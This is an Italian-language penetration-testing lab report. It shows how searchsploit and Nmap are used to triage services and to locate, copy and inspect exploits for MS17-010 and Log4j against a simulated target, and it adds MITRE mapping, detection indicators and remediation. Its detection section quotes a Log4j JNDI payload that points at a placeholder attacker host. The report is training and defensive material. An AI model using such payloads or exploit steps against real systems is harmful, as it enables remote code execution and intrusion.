




# Offline Vulnerability Assessment & Exploit Preparation

- Ambiente Operativo: Kali Linux Purple (Terminale Locale)
- Target (Simulato): Workstation Windows 10 (IP: 192.168.0.109) e Server Vulnerabili Storici
- Toolchain Utilizzata: Nmap, Searchsploit (Exploit-DB CLI)
- Obiettivo: Dimostrare capacità di Enumerazione Automatica e Gestione degli Exploit in contesti Air-Gapped o Time-Restricted (es. OSCP).

---

## Executive Summary

Il presente documento illustra le metodologie di Vulnerability Assessment e preparazione degli exploit in scenari in cui l'accesso diretto a internet è interdetto (Air-Gapped Networks) o dove le restrizioni di tempo impongono una rapida correlazione tra i servizi esposti e le vulnerabilità note.

Sfruttando `searchsploit`, l'interfaccia a riga di comando del database offline di Exploit-DB, l'operazione ha validato due approcci fondamentali: l'ingestione massiva e automatizzata di output Nmap in formato XML e la ricerca puntuale (con relativa ispezione del codice sorgente) di vulnerabilità critiche ad alto impatto (MS17-010 e CVE-2021-44228).

---

## Fase 1: Automated Triage (Integrazione Nmap -> Searchsploit)

La prima fase ha simulato un'attività di enumerazione massiva. Un host bersaglio è stato scansionato tramite Nmap, richiedendo esplicitamente il banner grabbing e l'identificazione della versione dei servizi (`-sV`). L'output è stato esportato in formato strutturato XML.

Il file risultante (`scansione_windows.xml`) è stato successivamente fornito in pasto al motore di `searchsploit` tramite il flag `--nmap`. 
Il tool ha parsato dinamicamente l'XML, estraendo i servizi rilevati (es. porte 135, 139, 445 e relativi demoni RPC/SMB) ed effettuando automaticamente il cross-referencing con il proprio database offline, restituendo una lista ordinata di potenziali vettori di attacco.

Questa tecnica riduce drasticamente i tempi di ricognizione manuale, permettendo all'analista di concentrarsi immediatamente sulla validazione dei falsi positivi e sulla Weaponization.

---

## Fase 2: Exploit Hunting & Mirroring (MS17-010 EternalBlue)

In un secondo scenario, è stata condotta una ricerca mirata per una specifica e devastante vulnerabilità SMB: MS17-010 (EternalBlue).
L'obiettivo operativo non era solo identificare l'exploit, ma preparare l'ambiente di lavoro in tempi ristretti, senza dover navigare nella complessa struttura di directory di Kali Linux.

Tramite il comando di query `searchsploit ms17-010 windows remote`, è stato individuato l'ID dell'exploit in Python adeguato all'architettura target (`42315`).
Successivamente, utilizzando il parametro di Mirroring (`-m`), l'exploit è stato clonato istantaneamente nella working directory corrente dell'analista, pronto per le inevitabili fasi di Hardcoding (inserimento IP e Shellcode).

---

## Fase 3: Code Inspection & OPSEC (CVE-2021-44228 Log4j)

L'esecuzione cieca di exploit di terze parti rappresenta un rischio critico per la Sicurezza Operativa (OPSEC). I malware scaricati da database pubblici possono contenere backdoor, comportamenti distruttivi o shellcode obsoleti che causano kernel panic.

Per validare la postura di sicurezza durante le fasi di preparazione, è stata ricercata la vulnerabilità Java Log4j RCE (`searchsploit log4j rce`). Una volta identificato il Proof of Concept (ID `50592`), è stato utilizzato il parametro di ispezione diretta (`-x`).

Questa funzione ha permesso l'apertura immediata del codice sorgente in modalità lettura, garantendo all'analista la possibilità di effettuare una rapida Code Review (Analisi Statica) per verificare l'integrità del payload e la sicurezza delle chiamate di rete, requisito fondamentale prima di ingaggiare l'infrastruttura del cliente.

---

## Mappatura MITRE ATT&CK

| Tattica | Tecnica | ID MITRE | Descrizione dell'Azione |
| :--- | :--- | :--- | :--- |
| Reconnaissance | Active Scanning: Vulnerability Scanning | `T1595.002` | Esecuzione di port/service scan e correlazione automatizzata con database di vulnerabilità noti. |
| Resource Development | Obtain Capabilities: Exploits | `T1588.005` | Ricerca offline, ispezione e clonazione di Proof of Concept (PoC) per vulnerabilità critiche (MS17-010, Log4j). |

---

## Indicators of Compromise (IoCs) & Detection Engineering

Sebbene in questo scenario gli exploit non siano stati attivamente lanciati contro i bersagli, le attività preparatorie e di ricognizione generano artefatti di rete che un SOC (Security Operations Center) dovrebbe essere in grado di rilevare:

- Network Scanning (Nmap): Un'analisi delle versioni (`-sV`) genera un volume anomalo di traffico TCP SYN e richieste applicative malformate. I sistemi IDS/IPS possono rilevare pattern associati ai probe di Nmap (es. richieste HTTP con User-Agent `Mozilla/5.0 (compatible; Nmap Scripting Engine)` o pacchetti TCP con flag inusuali).
- Firma MS17-010 (Teorica): Se l'exploit preparato fosse stato lanciato, l'infrastruttura di rete avrebbe registrato traffico SMBv1 anomalo sulla porta 445, caratterizzato da pacchetti IPC$ con richieste `PeekNamedPipe` e transazioni di grandi dimensioni.
- Firma Log4j (Teorica): L'esecuzione del payload per la CVE-2021-44228 avrebbe lasciato tracce nei log applicativi (es. access.log di Apache/Tomcat) contenenti la tipica stringa di lookup JNDI: `${jndi:ldap://[IP_ATTACCANTE]/Exploit}`.

---

## Remediation Strategy & Mitigation

Per neutralizzare le vulnerabilità identificate e mitigare l'efficacia delle ricognizioni automatizzate, si raccomandano le seguenti contromisure:

1. Gestione dell'Esposizione (Attack Surface Management): Disabilitare l'esposizione di servizi critici (come SMB/RPC sulle porte 135, 139, 445) direttamente su reti non attendibili. Tali protocolli devono essere accessibili esclusivamente tramite VPN o segmenti di rete isolati (VLAN di management).

2. Mitigazione MS17-010: Disabilitare categoricamente il protocollo SMBv1 su tutte le macchine del dominio, sostituendolo con SMBv2 o SMBv3. Applicare la patch di sicurezza Microsoft MS17-010.

3. Mitigazione Log4j: Aggiornare la libreria `log4j-core` alla versione 2.17.1 o superiore. Qualora l'aggiornamento non fosse immediatamente fattibile, mitigare il rischio impostando la variabile d'ambiente `LOG4J_FORMAT_MSG_NO_LOOKUPS=true`.

4. Intrusion Prevention System (IPS): Implementare e manutenere regole IPS aggiornate per bloccare e allertare in tempo reale sui tentativi di scansione aggressiva e sulle stringhe di exploit note per vulnerabilità di tipo RCE.